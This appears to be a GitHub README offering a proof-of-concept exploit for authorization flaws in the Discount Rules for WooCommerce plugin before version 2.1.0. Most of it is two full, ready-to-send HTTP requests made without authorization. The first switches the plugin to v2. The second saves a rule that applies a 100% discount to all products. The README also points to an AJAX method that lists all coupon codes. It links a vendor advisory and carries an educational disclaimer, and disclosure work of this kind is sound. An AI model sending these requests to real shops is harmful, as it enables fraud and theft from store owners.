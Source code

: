 <meta name="author" content="fromkhabar">
<meta name="description" content="Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC">
<meta name="copyright" content="Your name 2022">
<meta name="keywords" content="woo-discount-rules-2.1.0, PoC, WooCommerce 2.1.0">
<meta name="google-site-verification" content="Pz5jp24eSG950_DG8lj49sUOAC0YUjuhwj63sb112w4" />

# Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC
Proof-of-Concept for Discount Rules for WooCommerce &lt; 2.1.0 authorization issues



May be useful in CTF because it's very old.

## Info
The vulnerability makes it possible to send requests to set up discounts and receive coupons without authorization.
More details here: https://patchstack.com/articles/multiple-vulnerabilities-in-discount-rules-for-woocommerce-plugin/

Most interesting AJAX methods are:
- wdr_ajax_cart_coupon - Retrieve the list of all coupon codes
- wdr_ajax_save_rule - Save a discount rule

## Usage
### Firstly, we need to send a request to enable the second version of the vulnerable plugin:
```
POST /?awdr_switch_plugin_to=v2 HTTP/1.1
Host: wp.example.com
Content-Length: 0
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://wp.example.com
Referer: http://wp.example.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Cookie: wordpress_test_cookie=WP+Cookie+check; woocommerce_items_in_cart=1; wp_woocommerce_session_40ae737bee04d7f05dfc6771baa425d6=878fc0c71d51694db644a581fd114f1b%7C%7C1698923490%7C%7C1698919890%7C%7Cbe0053b07e3673f00828a41bbb399000; woocommerce_cart_hash=75a9c8b0a8eb0d3560d5d875dbbdeb45
Connection: close
```
You can make sure that the version has been changed by searching for the answer to this request for the phrase “v2”; it should find several occurrences, but nothing will be found for the phrase “v1”.
![set_and_check_version_to_v2](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/4ca44344-dac2-4406-a892-39c70374212a)


### Now we are able to set any discount on all products
- enabled=1 - turn on discount
- filters[1][type]=all_products - to all products
- product_adjustments[type]=percentage - percent discount
- product_adjustments[value]=100 - discount value
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: wp.example.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ru;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 409

title=eeeee&enabled=1&current_page=1&discount_type=wdr_simple_discount&action=wdr_ajax&method=save_rule&awdr_nonce=2daef3dee8&wdr_save_close=1&edit_rule=&filters%5B1%5D%5Btype%5D=all_products&product_adjustments%5Btype%5D=percentage&product_adjustments%5Bvalue%5D=100&product_adjustments%5Bcart_label%5D=&additional%5Bcondition_relationship%5D=and&usage_limits=&date_from=&date_to=&wdr_ajax_select2=121bf69698
```
![set_discount](https://github.com/fromkhabar/Multiple-vulnerabilities-woo-discount-rules-2.1.0-PoC/assets/158577109/b39b4286-bf56-4f86-b08f-0379e69b7155)


Vuln was fixed in version 2.1.0

# Disclamer
This PoC is only meant for educational purposes. You are responsible for your own actions.
